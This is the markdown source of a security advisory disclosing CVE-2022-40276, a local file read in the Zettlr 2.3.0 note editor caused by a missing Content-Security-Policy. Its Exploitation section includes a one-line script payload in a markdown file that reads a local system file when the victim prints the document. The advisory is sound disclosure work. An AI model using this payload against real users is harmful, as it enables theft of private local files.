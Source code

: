 ```yaml
---
slug: advisories/avicii/
title: Zettlr 2.3.0  -  Local File Read
authors: Carlos Bello
writer: cbello
codename: avicii
product: Zettlr 2.3.0
date: 2022-09-26 15:30 COT
cveid: CVE-2022-40276
severity: 5.5
description: Zettlr 2.3.0  -  Local File Read - Insecure or unset HTTP headers
keywords: Fluid Attacks, Security, Vulnerabilities, Zettlr, HTTP
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Zettlr 2.3.0  -  Local File Read                       |
| **Code name**         | [Avicii](https://en.wikipedia.org/wiki/Avicii)         |
| **Product**           | Zettlr                                                 |
| **Affected versions** | Version 2.3.0                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Insecure or unset HTTP headers - Content-Security-Policy                                                                    |
| **Rule**              | [043. Insecure or unset HTTP headers - Content-Security-Policy](https://docs.fluidattacks.com/criteria/vulnerabilities/043) |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 5.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-40276](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40276)                                             |

## Description

Zettlr version 2.3.0 allows an external attacker to remotely obtain
arbitrary local files on any client that attempts to view a malicious
markdown file through Zettlr. This is possible because the application
does not have a CSP policy (or at least not strict enough) and/or does
not properly validate the contents of markdown files before rendering
them.

## Vulnerability

This vulnerability occurs because the application does not have a CSP
policy (or at least not strict enough) and/or does not properly validate
the contents of markdown files before rendering them. Because of the above,
an attacker can embed malicious JS code in a markdown file and send it to
the victim to view and thus achieve an exfiltration of their local files.

More about this functionality here: https://docs.zettlr.com/en/core/print-preview/

## Exploitation

To exploit this vulnerability, you must send the following file to a
user to open with Zettlr. The exploit is triggered when the user
presses `CTRL+P` or simply clicks `print`.

### exploit.md

```markdown
<script>fetch("file:///etc/private").then(response => response.text()).then(leak => alert(leak))</script>
```

## Evidence of exploitation

![LocalFileRead](https://user-images.githubusercontent.com/51862990/189765853-1b6e5c13-5ec2-4062-8b35-c4a1c46cbc3a.gif)

## Our security policy

We have reserved the CVE-2022-40276 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Zettlr 2.3.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Zettlr/Zettlr>

## Timeline

<time-lapse
  discovered="2022-09-07"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>

